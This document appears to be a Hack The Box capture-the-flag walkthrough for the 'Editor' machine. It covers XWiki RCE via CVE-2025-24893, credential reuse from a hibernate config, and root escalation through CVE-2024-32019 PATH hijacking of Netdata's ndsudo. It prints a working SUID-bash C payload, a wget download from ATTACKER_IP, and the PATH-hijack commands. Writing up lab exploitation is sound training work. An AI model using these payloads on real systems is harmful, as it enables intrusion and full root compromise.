









This box is rated easy difficulty on HTB. It involves us finding a virtual host on a website running a vulnerable version of Xwiki. We can get RCE on the system by injecting code in text parameters on the site, allowing us to grab a shell as the Xwiki service. A pair of hardcoded credentials in a hibernate config file are resued to pivot users. Finally, an outdated version of Netdata is prone to a local privilege escalation through PATH hijacking in a binary with the SUID bit set on it.

## Scanning & Enumeration
I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP returns nothing.

```
$ sudo nmap -p22,80,8080 -sCV 10.129.231.23 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-13 01:24 CDT
Nmap scan report for 10.129.231.23
Host is up (0.054s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editor.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp open  http    Jetty 10.0.20
|_http-open-proxy: Proxy might be redirecting requests
| http-cookie-flags: 
|   /: 
|     JSESSIONID: 
|_      httponly flag not set
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, LOCK, UNLOCK
|_  Server Type: Jetty(10.0.20)
|_http-server-header: Jetty(10.0.20)
| http-methods: 
|_  Potentially risky methods: PROPFIND LOCK UNLOCK
| http-title: XWiki - Main - Intro
|_Requested resource was http://10.129.231.23:8080/xwiki/bin/view/Main/
| http-robots.txt: 50 disallowed entries (15 shown)
| /xwiki/bin/viewattachrev/ /xwiki/bin/viewrev/ 
| /xwiki/bin/pdf/ /xwiki/bin/edit/ /xwiki/bin/create/ 
| /xwiki/bin/inline/ /xwiki/bin/preview/ /xwiki/bin/save/ 
| /xwiki/bin/saveandcontinue/ /xwiki/bin/rollback/ /xwiki/bin/deleteversions/ 
| /xwiki/bin/cancel/ /xwiki/bin/delete/ /xwiki/bin/deletespace/ 
|_/xwiki/bin/undelete/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.90 seconds
```

There are three ports open: 
- SSH on port 22
- An nginx web server on port 80
- A Jetty web server on port 8080

We can see the server redirecting us to `editor.htb`, which I'll add to my `/etc/hosts` file. Without credentials, we won't be able to do much on that version of OpenSSH, so I fire up Ffuf to search for subdirectories and Vhosts in the background before heading over to the different sites.

```
$ ffuf -u http://editor.htb/FUZZ -w /opt/SecLists/directory-list-2.3-medium.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://editor.htb/FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

assets                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 51ms]

:: Progress: [220560/220560] :: Job [1/1] :: 711 req/sec :: Duration: [0:05:29] :: Errors: 0 ::
```

Checking out the landing page on port 80 shows that the organization is a software company that offers a free code editor to download.


We can indeed download the code editor as both `.deb` and `.exe` packages, but I'll wait to start reverse engineering anything until the server have been enumerated fully. 

## Xwiki Vhost
My scans reveal a virtual host at `wiki.editor.htb` which I append to my hosts file as well. We could also discover this by navigating to the docs tab on the main page and it'll redirect us here.

```
$ ffuf -u http://editor.htb -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.editor.htb" --fs 154 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://editor.htb
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.editor.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 154
________________________________________________

wiki                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 65ms]

:: Progress: [19966/19966] :: Job [1/1] :: 729 req/sec :: Duration: [0:00:29] :: Errors: 0 ::
```

Heading over there shows an Xwiki application for the site that holds a bunch of information on their code editor. This is also what's running on port 8080, just to clear some things up.

## Version Disclosure
A bit of research shows that Xwiki is an open-source enterprise wiki platform used to create collaborative documentation, knowledge bases, and internal tools within organizations. It runs on Java and allows users to build dynamic web applications using wiki pages, scripts, and extensions.



Off the bat, by scrolling down we can see that this site discloses the version in the footer, being `Xwiki Debian v15.10.8`. I take to Google and Searchsploit to find any known vulnerabilities in this implementation, which led me to [CVE-2025–24893](https://nvd.nist.gov/vuln/detail/CVE-2025-24893).

## CVE-2025–24893 Exploitation
This is a critical vulnerability in the Xwiki Platform that allows unauthenticated remote code execution. The flaw exists because the `SolrSearch` macro improperly sanitizes user-supplied input, allowing attackers to inject and execute Groovy code via crafted requests to the `/xwiki/bin/get/Main/SolrSearch` endpoint.

An attacker can exploit this by sending a malicious request containing injected Groovy code in parameters such as text, which the server evaluates and executes. Because this endpoint is accessible to guest users, it enables unauthenticated RCE and full compromise of the Xwiki server; Affected Xwiki versions are (< 15.10.11, 16.4.1, and 16.5.0RC1).

While doing research on this CVE, I came across this [Github repository](https://github.com/dollarboysushil/CVE-2025-24893-XWiki-Unauthenticated-RCE-Exploit-POC) that contains a PoC for grabbing a reverse shell on the site. After cloning this repo and making the script executable, I run it, providing all necessary parameters. Standing up a Netcat listener beforehand catches the connection and we get a shell on the system as the xwiki user.



I also upgrade and stabilize my shell with the typical Python import pty method before moving onto enumerating the filesystem.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
CTRL + Z
stty raw -echo;fg
ENTER
ENTER
```

## Privilege Escalation
A quick look around shows one other user besides root, named Oliver. I'd like to pivot to their account as they most likely have higher privileges than this service account. Unfortunately, we're unable to view their home directory, so I start looking around for hardcoded credentials in config files, loosely secured backups, etc.

### DB Credentials in Hibernate Config
A quick Google search reveals that Xwiki's configuration files are stored under `/etc/xwiki`, and going there gives a few XML documents to go through.



I find a pair of database credentials inside of the hibernate.cfg.xml file, which will let us dump the SQL DB running internally on port 3306.



Connecting to it shows five databases in total, however none of them contain anything useful other than the standard columns that come with a fresh install. When this happens, I check to see if the password works to switch users and find that we can authenticate as Oliver with those credentials as well.

I swap over to SSH in order to grab a proper shell on the box and start looking for ways to escalate privileges to root. At this point we can grab the user flag under his home directory too.



### Outdated Netdata Version 
Going about the usual routes of finding sensitive binaries with the SUID bit set, listing Sudo permissions, and scripts/cronjobs being executed by root returns nothing at all.

Displaying what groups Oliver is in shows just one other than our username, being netdata. Research says that it's an open-source, real-time infrastructure monitoring tool that is designed for instant, high-fidelity observability of servers, containers, and applications.



It seems like this service is ran by root but we're allowed to manage components of it because of our group privileges. I locate the binary file at `/opt/netdata/bin/netdata` and use the help option, which shows that we can use `-W buildinfo` to find the version.



### Ndsudo Path Hijacking
Once again, I take to Google and Searchsploit for any known vulnerabilities on this service. Eventually, I discover [CVE-2024–32019](https://nvd.nist.gov/vuln/detail/CVE-2024-32019) which explains that it's a local privilege escalation vulnerability affecting the Netdata monitoring agent, more specifically the ndsudo utility. The issue occurs because ndsudo is a SUID root binary that relies on the PATH environment variable to locate commands, allowing an attacker to influence which executable gets run.

I find the vulnerable binary at `/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo` which can be ran with six total parameters to execute different actions.



Testing a few of these out shows that when ran with the `nvme-list` option, it fails to find the nvme binary since it's not available with the current path. 

```
oliver@editor:/opt/netdata/bin$ /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
nvme : not available in PATH.
```

This is exactly what we want, since we won't have to deal with overriding any existing places. If we create a malicious binary named nvme, place it in a writeable directory, and export it to our `$PATH` variable, we can force this binary to run it on behalf of root.

To exploit this, I'll make a small program in C that will copy the Bash binary to the `/tmp` directory and give it an SUID bit, as well as make sure it's owned by root user.

```
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <sys/types.h>

int main() {
    setuid(0);
    seteuid(0);
    setgid(0);
    setegid(0);
    system("cp /bin/bash /tmp/bashy; chown root:root /tmp/bashy; chmod +s /tmp/bashy");
}
```

The box does not have gcc installed on it, so I compile it on my local machine and transfer it over an HTTP server.

```
--On local machine--
$ gcc exploit.c -o nvme

$ python3 -m http.server 80

--On remote vulnerable machine--
$ wget http://ATTACKER_IP/nvme

$ chmod +x nvme
```

Once we have uploaded that malicious nvme binary to the box and made sure it's able to be executed, we can export the directory that it's in so that Ndsudo can locate it. As I'm in the `/tmp` directory, I proceed with supplying that, however this could be anywhere that we're able to write to.

```
$ export PATH=/tmp:$PATH

$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

Finally, we can run Ndsudo with the nvme-list option to call our malicious binary and have it clone Bash to `/tmp` with the SUID bit. Spawning a root shell and grabbing the final flag at `/root/root.txt` completes this box.

```
$ /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list

$ ls -la /tmp

$ /tmp/bashy -p
```



That's all y'all, this box was a pretty simple one that revolved around web and filesystem enumeration. I enjoyed the privesc technique as it's realistic and goes to show how outdated or forgotten files can be very dangerous. I hope this was helpful to anyone following along or stuck and happy hacking!
